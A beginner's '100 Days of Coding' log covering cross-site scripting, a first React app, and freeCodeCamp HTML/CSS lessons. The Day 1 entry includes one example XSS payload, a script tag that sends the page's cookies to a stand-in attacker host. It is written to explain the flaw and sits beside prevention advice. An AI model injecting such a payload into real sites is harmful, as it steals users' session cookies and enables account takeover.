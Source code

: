 
# 100 Days of Coding - Log

## Start of Log

## Day 1 - July 24, 2019
**Subject:** Cross-Site Scripting
**Today's Progress:** I was able to understand the concept of Cross-Site Scripting (XSS), it's use and prevention.

**Thoughts:**
 XSS flaws occur whenever an applications includes untrusted data in a new web page without proper validation or escaping or updates a n existing web page w/ user supplied data using a browser api that can create Javascript.

It enables attackers to inject client-side scripts into web pages viewed by other users.

### What does XSS can do?
 - Malicious javascript can be used to do all sorts of malicious attacks because basically, it can access the api or anything that connects to the database. it also can affect the behavior of the page.
- it can be used to steal user cookies that allows the attacker to use the website pretendingto be that user that he stole.

### Example of injections to the `<input>` tags or in the URL:
	`><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>`.

or other HTML Tags like what i've tested `<i>` which transformed the remainder of the elements in the HTML Body into _Italic_.

### Preventions:
 - The preferred option is to properly escape untrusted data based on HTML context that the data will be placed into.
 - avoid passing untrusted data to Javascript and other browser APIs that can generate active content.
 
## 

## Day 2 - July 25, 2019

**Subject:** Javascript (ReactJS)

**Today's Progress:** I started creating my first react app with `npx create-react-app react-app` and created my own _index.js_ file.

**Thoughts:**

I Encountered a problem in running the `npm install -g create-react-app` and `npx create-react-app react-app` commands on my terminal so i had to surf on the web on how can i fix it. but luckily it was fixed by running the `sudo chown -r <path>` command.

  

I run my app with `npm start` on the terminal and prints _Hello World_

  

I put these lines of codes in my _index.js_ as a test for starting the app.

  

```
import React from 'react';
import ReactDOM from 'react-dom';

const App = () => {
return <div>Hello World</div>
};

ReactDOM.render(
<App />,
document.querySelector('#root')
);
```
<br>

|  import | React | from | 'react' |
|---------|-------|------|---------|
|gives me access to<br>codes from other files<br>or dependencies <br> that I will import.|The variable I want <br> to assign this import<br> to.| I'm about to specify<br>the name of the<br>library or file that I'm<br>importing from.|The name of the<br>dependency or <br> path to the file I<br>am importing.

###

`ReactDOM.render` takes the component and shows it on the screen.

##

## Day 3 - July 26, 2019

**Subject:** Basic HTML and HTML5

**Today's Progress:** I finished the first part of the Responsive Web Design Certification in [https://learn.freecodecamp.org/](https://learn.freecodecamp.org/) which is Basic HTML and HTML5.

![enter image description here](https://i.imgur.com/M3IzbHz.png)

##

## Day 4 - July 29, 2019

**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with changing color text up to sizing images.
![enter image description here](https://i.imgur.com/62Mubc2.png)

##

## Day 5 - July 30, 2019
**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with more than half of the topic. I've finished starting from Adding Borders around the Element up to Override styles in Subsequent CSS.

![enter image description here](https://i.imgur.com/s1dpdHM.png)


## Day 6 - July 31, 2019
**Subject:** Basic CSS

**Today's Progress:** I finished the course for the `Basic CSS` and tried to create variables that can be use all through the CSS file.

![enter image description here](https://i.imgur.com/eWT2INn.png)

## Day 7 - August 1, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I started working with the `Applied Visual Design` Course in the freecodecamp site and had reviewed about some of the techniques in HTML and CSS.

![enter image description here](https://i.imgur.com/GtaJ0kV.png)
![enter image description here](https://i.imgur.com/GH339YD.png)

## Day 8 - August 2, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` Course and learned new things that I haven't use in my coding career. I mostly use the hex code `#` or the `rgba()` for color specifications but recently here in the codecamp, I learned about the `hsl()` for _Hue, Saturation and Lightness_ which will be a good help when I proceed with the designing for future projects. I also tried to create a graphic object by using css codes. I managed to had a _Moon_ output as a graphic object and tried to manipulate other `HTML ELEMENTS`.

![enter image description here](https://i.imgur.com/PeZMwuK.png)

## Day 9 - August 5, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` and finished the whole course. I tried to create complex shape and animation by keyframes using CSS.

![Here are the remaining exercises on the course](https://i.imgur.com/avT7H53.png)

## Day 10 - August 6, 2019
**Subject:** Applied Accessibility / CSS

**Today's Progress:** I finished one module today which is `Applied Accessibility` in the freecodecamp and tried to put `<audio>` `<figure>` and other new tags.

![Full course of Applied Accessibility](https://i.imgur.com/uz1KhC0.png)